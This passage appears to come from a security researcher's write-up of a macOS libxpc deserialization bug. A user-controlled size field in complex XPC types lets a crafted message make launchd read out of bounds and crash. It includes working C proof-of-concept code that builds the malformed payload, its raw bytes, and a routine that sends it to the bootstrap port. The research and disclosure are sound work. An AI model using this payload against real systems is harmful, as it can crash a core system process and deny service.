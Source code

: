 Note the comment `// TKTK: Cant do this!! Size is user controlled`. What I am doing is casting the raw memory to the base XPC message struct and processing based on the `type`. With the complex type, there is a entry called 'size' that should be the full size of that portion of the XPC object (to the next key string). However, this value is something that is controlled by whoever is constructing the message. It should not be trusted for obvious reasons.

When I ran my deserialization routine over the payload that was causing my machine to crash, it turns out that my code was also crashing on a `strlen`. I thought to myself - this couldn't be a coincidence. After stepping through my deserialization routine's crash, it became obvious. Just like my code, the `libxpc` code is trusting the 'length' value of these complex types, increasing a pointer based on that value, and assuming that is where the next key should be. If you have the size set to  it will attempt to read a string from the current offset + 0xFFFFFFFF, typically causing a segfault. 

Confirming my suspicions 
------------------------
The next step was to create an arbitrary payload to test this theory. Of course I wanted to do it programatically, so I wrote a library that would take a set of custom `xpc_objects` and serialize them to the raw XPC packet. In order to be able to control all aspects of each XPC data object I had to recreate each custom type. I then created a minimum payload that should trigger the crash.

Since this was being sent to `launchd` I needed a routine that would actually attempt to deserialize my XPC object. Based on some previous research I did with `launchctl` I knew that there was a basic XPC structure that needed to be sent, thus the 'handle,' 'subsystem,' and 'routine' keys. The code I used to do this with the complex string type was:

{% highlight c %}
xpc_serialization_value* vals[4] = {0,0,0,0};
vals[0] = create_xpc_serialization_uint64("handle", 1);
vals[1] = create_xpc_serialization_uint64("subsystem", 1);
vals[2] = create_xpc_serialization_string("a", "a");
((xpc_string_value*)vals[2]->value_pointer)->len = -1;
vals[3] = create_xpc_serialization_uint64("routine", 1);
xpc_serialized_object* obj = serialize_xpc_object(vals, 4);

// Print raw bytes of xpc_serialized_object
// Output => {0x21, 0x43, 0x50, 0x58, 0x05, 0x00, 0x00, 0x00, 0x00, 0xf0, 0x00, 0x00, 0x5c, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0x68, 0x61, 0x6e, 0x64, 0x6c, 0x65,0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x73, 0x75, 0x62, 0x73, 0x79, 0x73, 0x74, 0x65, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x61, 0x00, 0x00, 0x00, 0x00, 0x90, 0x00, 0x00, 0xff, 0xff, 0xff, 0xff, 0x61, 0x00, 0x00, 0x00, 0x72, 0x6f, 0x75, 0x74, 0x69, 0x6e, 0x65, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
{% endhighlight %}

The code I used to trigger the crash:

{% highlight c %}
#include <xpc/xpc.h>
void send_payload(void * xpc_payload, unsigned int xpc_payload_size){
        unsigned int size = sizeof(mach_msg_header_t) + xpc_payload_size;
        unsigned char* payload = calloc(size, sizeof(char));

        memcpy(payload+sizeof(mach_msg_header_t), xpc_payload, xpc_payload_size);

        mach_port_t port;
        kern_return_t ret = task_get_bootstrap_port(mach_task_self(), &port);
        mach_msg_header_t *msg = (mach_msg_header_t *)payload;
        msg->msgh_id = 0x10000000;
        msg->msgh_remote_port = port;
        msg->msgh_local_port = MACH_PORT_NULL;
        msg->msgh_bits = MACH_MSGH_BITS_ZERO;
        msg->msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, 0);

        mach_msg_return_t msg_ret;
        msg->msgh_size = size;
        msg_ret = mach_msg_send(msg);
}
